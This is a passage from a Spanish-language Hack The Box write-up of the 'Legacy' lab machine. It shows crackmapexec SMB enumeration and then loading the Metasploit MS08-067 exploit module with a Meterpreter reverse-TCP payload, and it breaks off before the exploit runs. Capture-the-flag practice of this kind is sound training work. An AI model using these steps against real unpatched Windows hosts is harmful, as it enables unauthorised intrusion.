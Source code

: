 ## SMB Enum

### `crackmapexec `

```sh
┌──(fz3r0㉿Fz3r0)-[~/Documents/01_-_Fz3r0_HTB/Legacy]
└─$ crackmapexec smb $ip_target
[*] First time use detected
[*] Creating home directory structure
[*] Creating default workspace
[*] Initializing SMB protocol database
[*] Initializing FTP protocol database
[*] Initializing MSSQL protocol database
[*] Initializing LDAP protocol database
[*] Initializing RDP protocol database
[*] Initializing WINRM protocol database
[*] Initializing SSH protocol database
[*] Copying default configuration file
[*] Generating SSL certificate

SMB         10.10.10.4      445    LEGACY           [*] Windows 5.1 (name:LEGACY) (domain:legacy) (signing:False) (SMBv1:True)
```

- `SMB         10.10.10.4      445    LEGACY           [*] Windows 5.1 (name:LEGACY) (domain:legacy) (signing:False) (SMBv1:True)`





## Exploit [Opción 1] - (Metasploit- `windows/smb/ms08_067_netapi`)



- En realidad es straight PWN.... la clásica de Eternal Blue pero con `MS08-067`

- `msfconsole`

- Selección de módulo:

```
msf6 > search MS08-067

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/ms08_067_netapi

msf6 > use 0
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms08_067_netapi) > 
```
